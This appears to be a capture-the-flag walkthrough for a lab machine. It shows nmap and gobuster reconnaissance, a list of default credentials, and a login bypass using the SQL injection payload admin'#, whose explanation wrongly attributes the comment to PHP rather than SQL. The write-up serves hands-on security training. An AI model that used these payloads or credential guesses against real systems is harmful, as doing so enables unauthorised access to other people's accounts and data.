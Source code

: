 1. **Scan all the ports and default scripts and determine service and version of open ports**
```bash
nmap -sV -sC [target ip]
```
--> port 80/tcp - open - http
--> http-server-header: Apache/2.4.38 (Debian) / http-title: Login


2. **Search the IP of the machine on our browser**
--> We can see a basic Login Page, but we don't have the user and the password yet.


3. **Check out the web directories with Gobuster**
```shell
gobuster dir -u http://[target ip]/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
--> We have not found helpful information


4. **Try with deafault credentials**
```shell
admin - admin
root - root
user - user
guest - guest
administrator - password
```
--> There wasn't the correct credentials


5. **Test the log in form for a possible SQL Injection vulnerability**
```php
# We can notice that in PHP language, "#" is used to make a comment, so we can conclude that if we use a "#" in the username, the website will read it like a comment, so it won't read the password.

--> Username: admin'#
	Password: [random]
```
--> **MACHINE PWNED!** Now, we are into the website and we can Capture the Flag.
